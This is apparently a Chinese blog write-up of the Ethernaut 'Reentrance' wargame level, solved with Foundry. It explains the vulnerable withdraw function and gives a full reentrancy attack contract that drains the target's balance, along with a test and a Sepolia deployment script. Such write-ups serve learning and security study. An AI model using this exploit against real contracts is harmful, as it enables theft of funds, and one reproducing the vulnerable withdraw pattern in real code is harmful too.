




# Foundry 通关 Ethernaut（9）— Reentrance

参加残酷共学打卡活动，记录一下这段时间的收获

## 目标

偷走合约的所有资产

## 漏洞合约

先来看漏洞合约本身，简单概括其核心功能：

1. **donate：** 向合约转账，并输入地址，合约映射将该地址余额增加转账值

2. **balanceOf**: 返回对应地址的余额值

3. withdraw

   ：提现函数

   1. 用户在合约状态变量中记录的余额大于 提现值
   2. 使用 call 方法向用户转账提现值
   3. 转账成功则 更新提现用户余额，减去提现值

```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.6.12;

import "openzeppelin-contracts-06/math/SafeMath.sol";

contract Reentrance {
    using SafeMath for uint256;

    mapping(address => uint256) public balances;

    function donate(address _to) public payable {
        balances[_to] = balances[_to].add(msg.value);
    }

    function balanceOf(address _who) public view returns (uint256 balance) {
        return balances[_who];
    }

    function withdraw(uint256 _amount) public {
        if (balances[msg.sender] >= _amount) {
            (bool result,) = msg.sender.call{value: _amount}("");
            if (result) {
                _amount;
            }
            balances[msg.sender] -= _amount;
        }
    }

    receive() external payable {}
}
```

## 思路

从名字就可以得知这是很经典的重入攻击

我们看到当判断当前用户余额大于提现值后，合约就会向用户转账，而当转账后，如果转账地址是合约地址的话，就很容易出现 攻击者在 fallback 或 reveive 函数中构造恶意代码进行攻击，可以从call开始截断逻辑，不断调用提现函数

## 踩坑

1. 最开始攻击合约使用了继承（虽然现在想想确实没道理，但是可以记录一下这个坑），我在攻击合约中定义了fallback函数去写攻击逻辑，但继承后，子合约也继承了receive函数

   **withdraw** 函数转账时没有定义 calldata，那么此时，receive 和 fallback 同时在场的情况下，回去调用 receive，导致转账后根本没进 攻击逻辑，正常更新余额，攻击失败

2. 目标要求提取合约所有余额，一开始没注意，只是使用重入多次提取用户余额，除非合约余额恰好是用户余额的整数倍，否则提取不干净，因此添加一个判断逻辑获取所有余额

   ```solidity
    receive() external payable {
           uint256 total = contractAddress.balance;
           uint256 balance = reentrance.balanceOf(address(this));
           if (total > 0) {
               if (total > balance) {
                   reentrance.withdraw(balance);
               } else {
                   reentrance.withdraw(total);
               }
           }
    }
   ```

## foundry 复现

### 测试

1. 测试脚本

   ```solidity
   // SPDX-License-Identifier: UNLICENSED
   pragma experimental ABIEncoderV2;
   pragma solidity 0.6.12;
   
   import {Test, console} from "forge-std/Test.sol";
   import {Reentrance,Attack} from "../src/Reentrance.sol";
   
   contract ReentranceTest is Test {
       Reentrance public reentrance;
       Attack public attack;
       address public user = vm.addr(123);
       address public attacker = vm.addr(456);
   
       function setUp() external {
           reentrance = new Reentrance();
           attack = new Attack(address(reentrance));
   
           // 用私钥创建的账户没有 eth，用默认测试账户先转钱
           payable(user).transfer(0.01 ether);
           payable(attacker).transfer(0.01 ether);
       }
   
       function test_attack() public {
           // 普通用户捐赠
           vm.prank(user);
           reentrance.donate{value: 0.001 ether}(user);
           // 普通用户捐赠后,目标合约余额和攻击合约余额
           console.log("before",address(reentrance).balance,address(attack).balance);
           // 攻击者攻击
           vm.prank(attacker);
           attack.attack{value: 0.01 ether}();
   
           // 查看目标合约余额，以及攻击合约余额
           console.log("after",address(reentrance).balance,address(attack).balance);
       }
   }
   ```

2. 终端输入

   ```solidity
   forge test --match-path test/Reentrance.t.sol -vvvv
   ```

   

   我们可以看到，部署攻击合约后，目标合约被转走全部资产

### 链上交互

1. 攻击合约

   ```solidity
   contract Attack {
       Reentrance public reentrance;
       address public contractAddress;
   
       constructor(address payable _Reentrance) public {
           contractAddress = _Reentrance;
           reentrance = Reentrance(_Reentrance);
       }
   
       function attack() public payable {
           reentrance.donate{value: msg.value}(address(this));
           reentrance.withdraw(msg.value);
       }
   
       receive() external payable {
           // 获取目标合约余额
           uint256 total = contractAddress.balance;
           // 获取本合约存在目标合约的余额
           uint256 balance = reentrance.balanceOf(address(this));
           // 只要目标合约余额大于0，就一直提现本合约余额
           // 直到目标合约余额小于本合约余额，然后一次性提现所有余额
           if (total > 0) {
               if (total > balance) {
                   reentrance.withdraw(balance);
               } else {
                   reentrance.withdraw(total);
               }
           }
       }
   }
   ```

   部署脚本

   ```solidity
   // SPDX-License-Identifier: UNLICENSED
   pragma solidity 0.6.12;
   
   import {Script, console} from "forge-std/Script.sol";
   import {Reentrance,Attack} from "../src/Reentrance.sol";
   
   contract AttackScript is Script {
       Reentrance public reentrance;
       Attack public attack;
   
       function setUp() public {
           reentrance = Reentrance(payable("关卡实例合约地址"));
       }
   
       function run() public {
           vm.startBroadcast();
           attack = new Attack("关卡实例合约地址");
           // 大于关卡实例余额
           attack.attack{value: 0.002 ether}();
           vm.stopBroadcast();
       }
   }
   ```

2. 查询关卡实例合约余额，为 0.001 ether

   ```solidity
   cast balance [关卡实例合约地址] --rpc-url $Sepolia_PRC_URL
   
   cast from-wei xxxx
   ```

   

3. 终端部署

   ```bash
   forge script script/Reentrance.s.sol --rpc-url $Sepolia_RPC_URL --broadcast --private-key $PRIVATE_KEY 
   ```

   

4. 查看数据，关卡实例合约的余额为0

   ```solidity
   cast balance [关卡实例合约地址] --rpc-url $Sepolia_PRC_URL
   ```

   


